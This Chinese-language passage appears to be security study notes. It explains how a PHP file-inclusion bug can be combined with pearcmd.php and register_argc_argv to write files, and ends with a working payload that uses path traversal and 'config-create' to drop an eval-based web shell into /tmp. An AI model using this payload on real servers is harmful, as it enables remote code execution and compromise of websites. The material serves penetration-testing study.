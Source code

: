 ```plain
​
return isset($result) && is_array($result) ? $result : [];
}
​
```

  

$type 就是 php 它给加的默认后缀

#### pear 写入文件

[https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)

利用条件

1）服务器上安装 pear，也就是存在 pearcmd.php。同时知道 pearcmd.php 的文件路径

2）web 环境下在 php.ini 中 register\_argc\_argv 设置为 On

3）存在文件包含，可以包含 php 文件并且没有 open\_basedir 的限制

  

php 的 pear 扩展是一个命令行扩展管理工具，默认的安装路径在 `/usr/local/lib/php/pearcmd.php`，在命令行下可以用 `pear` 或 `php /usr/local/lib/php/pearcmd.php` 运行，虽然不是在 web 的目录下，但是如果存在文件包含漏洞，我们就可以运行这个命令行工具

我们再来看 `register_argc_argv` 选项，在这个选项字段如果选了 `ON` 的话，URL 中？后面的内容会全部传入至 `$_SERVER['argv']` 这个变量内，无论后面的内容是否有等号。

  

docker 下的 payload

```plain
lang=../../../../../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=eval($_REQUEST[1]);?>+/tmp/eval.php
```
